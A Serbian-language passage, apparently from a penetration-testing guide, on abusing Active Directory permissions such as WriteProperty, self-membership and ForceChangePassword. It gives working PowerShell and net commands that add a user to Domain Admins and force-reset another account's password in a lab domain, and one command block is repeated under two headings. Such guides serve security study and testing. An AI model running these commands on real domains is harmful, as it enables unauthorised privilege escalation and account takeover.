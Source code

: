 ## **GenericAll / GenericWrite / Write na računaru/korisniku**

Imanje ovih privilegija na računaru ili korisničkom nalogu omogućava:

* **Kerberos Resursno ograničeno preusmeravanje**: Omogućava preuzimanje računarskog objekta.
* **Senke akreditiva**: Koristite ovu tehniku da se predstavite kao računar ili korisnički nalog iskorišćavanjem privilegija za stvaranje senki akreditiva.

## **WriteProperty na grupi**

Ako korisnik ima prava `WriteProperty` na svim objektima za određenu grupu (npr. `Domain Admins`), mogu:

* **Dodati sebe u grupu Domain Admins**: Moguće je kombinovanjem komandi `net user` i `Add-NetGroupUser`, ovaj metod omogućava eskalaciju privilegija unutar domena.

```powershell
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

## **Samostalno (Samopridruživanje) grupi**

Ova privilegija omogućava napadačima da dodaju sebe u određene grupe, poput `Domain Admins`, kroz komande koje direktno manipulišu članstvom u grupi. Korišćenje sledećeg niza komandi omogućava samopridruživanje:

```powershell
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

## **WriteProperty (Samopridruživanje)**

Slična privilegija, omogućava napadačima da direktno dodaju sebe u grupe modifikujući svojstva grupa ako imaju pravo `WriteProperty` na tim grupama. Potvrda i izvršenje ove privilegije se vrše sa:

```powershell
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
net group "domain admins" spotless /add /domain
```

## **ForceChangePassword**

Zadržavanje `ExtendedRight` na korisniku za `User-Force-Change-Password` omogućava resetovanje lozinke bez poznavanja trenutne lozinke. Provera ovog prava i njegova eksploatacija mogu se obaviti putem PowerShell-a ili alternativnih alata komandne linije, nudeći nekoliko metoda za resetovanje lozinke korisnika, uključujući interaktivne sesije i jednolinijske naredbe za neinteraktivna okruženja. Naredbe variraju od jednostavnih PowerShell poziva do korišćenja `rpcclient` na Linuxu, demonstrirajući raznovrsnost vektora napada.

```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
